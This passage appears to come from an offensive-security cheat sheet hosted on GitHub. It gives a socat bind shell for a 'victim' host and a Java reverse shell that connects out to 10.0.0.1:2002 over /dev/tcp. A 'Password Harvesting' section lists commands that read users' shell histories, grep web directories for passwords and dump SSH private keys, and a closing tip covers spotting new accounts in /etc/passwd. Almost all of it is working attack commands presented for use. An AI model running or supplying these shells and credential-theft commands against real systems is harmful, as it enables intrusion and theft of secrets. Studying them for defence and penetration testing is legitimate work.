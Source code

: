 On the victim platform:

```
user@victim $ socat TCP-LISTEN:5555,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

## Java:

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# Password Harvesting:

Passwords can be found in many places

```
# Process lists

user@victim $ ps -efw

# Usernames entered into login prompt by mistake

user@victim $ last -f /var/log/bmtp

# Usernames entered into command line arguments

user@victim $ cat /home/*/.*history

# Passwords saved in web files

user@victim $ grep -iR password /var/www

# SSH keys

user@victim $ cat /home/*/.ssh/id*
```

Enumerate password and account information with ```chage```

```
user@victim $ chage -l
```

## Unusual Accounts:

Look in /etc/passwd for new accounts in a sorted list:

```
user@RoseSecurity $ sort -nk3 -t: /etc/passwd | less
```
